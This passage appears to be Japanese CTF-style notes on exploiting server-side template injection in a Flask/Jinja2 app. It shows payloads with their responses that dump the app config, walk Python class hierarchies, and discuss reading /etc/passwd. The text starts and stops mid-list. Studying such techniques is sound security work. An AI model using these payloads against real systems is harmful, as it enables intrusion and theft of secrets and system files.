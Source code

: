 ```txt
以下長い出力
```
- `{{request.__class__.__dict__['_load_form_data'].__globals__['current_app']}}`   
```txt
Hello <Flask 'server'>! 
```
- `{{request.__class__.__dict__['_load_form_data'].__globals__['current_app'].config}}`   
```txt
Hello <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 
'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 
'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 
'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': 
True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 
'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 
'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 
'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': 
True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 
'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>! 
```
#### \_\_class\_\_
- `{{''.__class__}}`   
```txt
Hello <class 'str'>! 
```
- `{{''.__class__.__mro__}}`   
以下の出力の場合、Python3で実行されていることがわかる。  
`''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()`みたいなのの`2`はPython2用のindexなのでPython3の場合は`1`に修正する。  
python2なら`(<type 'str'>, <type 'basestring'>, <type 'object'>)`が返る。  
```txt
Hello (<class 'str'>, <class 'object'>)! 
```
- `{{''.__class__.__mro__[2]}}`   
```txt
Hello ! 
```
- `{{''.__class__.__mro__[2].__subclasses__()}}`   
```txt
Internal Server Error
```
- `{{ ''.__class__.__mro__[1] }}`   
二つしかないのでindexは1だった…   
```txt
Hello <class 'object'>! 
```
- `{{''.__class__.__mro__[1].__subclasses__()}}`   
この中に`<class 'file'>`がない…   
なので、`''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()`みたいにできない？？   
このPayloadはpython2専用。Python3だとindex 40のクラスは`<class 'wrapper_descriptor'>`で、`read`メソッドが存在しないので使えない。  
```txt
Hello [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 
'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, 
<class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, 
<class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 
'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, 
<class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 
'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, 
<class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, 
<class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, 
<class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, 
<class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 
'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 
'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 
'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, 
```